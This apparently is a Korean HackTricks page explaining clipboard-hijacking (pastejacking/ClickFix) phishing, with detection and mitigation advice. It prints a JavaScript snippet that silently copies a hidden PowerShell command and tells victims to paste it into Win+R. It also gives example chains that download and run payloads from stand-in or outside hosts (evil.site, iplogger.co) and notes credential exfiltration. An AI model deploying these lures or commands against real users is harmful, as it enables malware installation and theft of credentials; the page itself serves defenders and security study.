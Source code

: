 # 클립보드 하이재킹 (Pastejacking) 공격

{{#include ../../banners/hacktricks-training.md}}

> "자신이 복사하지 않은 것은 절대 붙여넣지 마세요." – 오래된 조언이지만 여전히 유효합니다.

## 개요

클립보드 하이재킹 – *pastejacking*으로도 알려짐 – 은 사용자가 명령을 복사하고 붙여넣는 것을 검사하지 않고 일상적으로 수행하는 사실을 악용합니다. 악의적인 웹 페이지(또는 Electron 또는 데스크탑 애플리케이션과 같은 JavaScript를 지원하는 컨텍스트)는 공격자가 제어하는 텍스트를 시스템 클립보드에 프로그래밍 방식으로 삽입합니다. 피해자는 일반적으로 정교하게 제작된 사회 공학 지침에 의해 **Win + R** (실행 대화상자), **Win + X** (빠른 액세스 / PowerShell)을 누르거나 터미널을 열고 클립보드 내용을 *붙여넣기* 하도록 유도되어 즉시 임의의 명령을 실행하게 됩니다.

**파일이 다운로드되지 않고 첨부파일이 열리지 않기 때문에**, 이 기술은 첨부파일, 매크로 또는 직접 명령 실행을 모니터링하는 대부분의 이메일 및 웹 콘텐츠 보안 제어를 우회합니다. 따라서 이 공격은 NetSupport RAT, Latrodectus 로더 또는 Lumma Stealer와 같은 일반적인 맬웨어 패밀리를 배포하는 피싱 캠페인에서 인기가 있습니다.

## JavaScript 개념 증명
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
이전 캠페인은 `document.execCommand('copy')`를 사용했지만, 최신 캠페인은 비동기 **Clipboard API** (`navigator.clipboard.writeText`)에 의존합니다.

## ClickFix / ClearFake 흐름

1. 사용자가 오타가 있는 또는 손상된 사이트(예: `docusign.sa[.]com`)를 방문합니다.
2. 주입된 **ClearFake** JavaScript가 `unsecuredCopyToClipboard()` 헬퍼를 호출하여 Base64로 인코딩된 PowerShell 원라이너를 클립보드에 조용히 저장합니다.
3. HTML 지침은 피해자에게 다음과 같이 말합니다: *“**Win + R**을 누르고, 명령을 붙여넣고 Enter를 눌러 문제를 해결하세요.”*
4. `powershell.exe`가 실행되어 합법적인 실행 파일과 악성 DLL이 포함된 아카이브를 다운로드합니다(고전적인 DLL 사이드로딩).
5. 로더가 추가 단계를 복호화하고, 셸코드를 주입하며, 지속성을 설치합니다(예: 예약 작업) – 궁극적으로 NetSupport RAT / Latrodectus / Lumma Stealer를 실행합니다.

### 예시 NetSupport RAT 체인
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (정상적인 Java WebStart)는 자신의 디렉토리에서 `msvcp140.dll`을 검색합니다.
* 악성 DLL은 **GetProcAddress**로 API를 동적으로 해결하고, **curl.exe**를 통해 두 개의 바이너리(`data_3.bin`, `data_4.bin`)를 다운로드하며, `"https://google.com/"`라는 롤링 XOR 키를 사용하여 이를 복호화하고, 최종 셸코드를 주입하며 **client32.exe** (NetSupport RAT)를 `C:\ProgramData\SecurityCheck_v1\`에 압축 해제합니다.

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. **curl.exe**로 `la.txt` 다운로드
2. **cscript.exe** 내에서 JScript 다운로더 실행
3. MSI 페이로드를 가져옴 → 서명된 애플리케이션 옆에 `libcef.dll` 드롭 → DLL 사이드로딩 → 셸코드 → Latrodectus.

### MSHTA를 통한 Lumma Stealer
```
mshta https://iplogger.co/xxxx =+\\xxx
```
The **mshta** 호출은 숨겨진 PowerShell 스크립트를 실행하여 `PartyContinued.exe`를 검색하고, `Boat.pst` (CAB)를 추출하며, `extrac32` 및 파일 연결을 통해 `AutoIt3.exe`를 재구성한 후, 브라우저 자격 증명을 `sumeriavgv.digital`로 유출하는 `.a3x` 스크립트를 실행합니다.

## 탐지 및 사냥

블루팀은 클립보드, 프로세스 생성 및 레지스트리 텔레메트리를 결합하여 pastejacking 남용을 정확히 찾아낼 수 있습니다:

* Windows 레지스트리: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`는 **Win + R** 명령의 기록을 유지합니다 – 비정상적인 Base64 / 난독화된 항목을 찾아보세요.
* 보안 이벤트 ID **4688** (프로세스 생성)에서 `ParentImage` == `explorer.exe`이고 `NewProcessName`이 { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` }에 있는 경우.
* 의심스러운 4688 이벤트 직전에 `%LocalAppData%\Microsoft\Windows\WinX\` 또는 임시 폴더에서 파일 생성에 대한 이벤트 ID **4663**.
* EDR 클립보드 센서 (존재하는 경우) – `Clipboard Write`가 새로운 PowerShell 프로세스에 의해 즉시 이어지는지 상관관계 분석.

## 완화 조치

1. 브라우저 강화 – 클립보드 쓰기 접근을 비활성화 (`dom.events.asyncClipboard.clipboardItem` 등)하거나 사용자 제스처를 요구합니다.
2. 보안 인식 – 사용자에게 민감한 명령을 *타이핑* 하거나 먼저 텍스트 편집기에 붙여넣도록 교육합니다.
3. PowerShell 제한 언어 모드 / 실행 정책 + 응용 프로그램 제어를 통해 임의의 원라이너를 차단합니다.
4. 네트워크 제어 – 알려진 pastejacking 및 악성 코드 C2 도메인에 대한 아웃바운드 요청을 차단합니다.

## 관련 트릭

* **Discord 초대 하이재킹**은 종종 사용자를 악성 서버로 유인한 후 동일한 ClickFix 접근 방식을 남용합니다:

{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## 참조

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

{{#include ../../banners/hacktricks-training.md}}
